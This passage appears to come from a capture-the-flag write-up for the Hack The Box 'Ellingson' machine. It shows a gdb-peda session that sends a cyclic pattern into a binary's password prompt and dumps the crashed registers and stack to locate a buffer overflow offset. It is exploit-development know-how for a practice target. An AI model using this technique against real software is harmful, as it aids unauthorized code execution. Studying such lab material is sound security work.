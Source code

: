     gdb-peda$ r
    Starting program: /media/sf_CTFs/hackthebox/ellingson-10.10.10.139/garbage
    Enter access password: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$
    A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y
    

The program crashes:

    
    
    [----------------------------------registers-----------------------------------]
    RAX: 0x0
    RBX: 0x0
    RCX: 0x7ffff7ec5804 (<__GI___libc_write+20>:    cmp    rax,0xfffffffffffff000)
    RDX: 0x7ffff7f988c0 --> 0x0
    RSI: 0x4059c0 ("access denied.\nssword: ")
    RDI: 0x0
    RBP: 0x6c41415041416b41 ('AkAAPAAl')
    RSP: 0x7fffffffdf68 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)         
    RIP: 0x401618 (<auth+261>:      ret)
    R8 : 0x7ffff7f9d500 (0x00007ffff7f9d500)
    R9 : 0x7ffff7f97848 --> 0x7ffff7f97760 --> 0xfbad2a84
    R10: 0xfffffffffffff638
    R11: 0x246
    R12: 0x401170 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe060 ("vA%YA%wA%ZA%xA%y")
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x40160d <auth+250>: call   0x401050 <puts@plt>
       0x401612 <auth+255>: mov    eax,0x0
       0x401617 <auth+260>: leave  
    => 0x401618 <auth+261>: ret    
       0x401619 <main>:     push   rbp
       0x40161a <main+1>:   mov    rbp,rsp
       0x40161d <main+4>:   sub    rsp,0x10
       0x401621 <main+8>:   mov    eax,0x0
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdf68 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)        
    0008| 0x7fffffffdf70 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)        
    0016| 0x7fffffffdf78 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%S"...)        
    0024| 0x7fffffffdf80 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%"...)        
    0032| 0x7fffffffdf88 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA"...)        
    0040| 0x7fffffffdf90 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%W"...)        
    0048| 0x7fffffffdf98 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%"...)        